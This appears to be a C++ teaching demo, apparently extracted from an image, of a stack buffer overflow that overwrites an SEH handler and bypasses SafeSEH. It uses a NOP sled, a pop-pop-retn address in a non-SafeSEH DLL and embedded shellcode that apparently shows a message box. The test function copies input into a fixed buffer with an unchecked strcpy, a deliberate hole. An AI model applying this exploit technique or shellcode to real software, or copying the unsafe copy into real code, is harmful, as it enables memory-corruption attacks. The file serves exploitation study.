 ```cpp
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xEB\x0E\x90\x90" // 220 Byte NOP, retn here, jmp to shellcode
"\x81\x11\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90" // to prevent SEH chain stack overfill
// shellocode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0; // prevent overfill, palce it to strcpy back

	__try
	{
		zero = 1 / zero;
	}
	__except(MyException()){}
}

int main()
{
	HINSTANCE hInst = LoadLibrary(TEXT("SEH_NOSafeSEH_JUMP.dll")); // load No_SafeSEH module

	char str[200];
	test(shellcode);
	return 0;
}
```
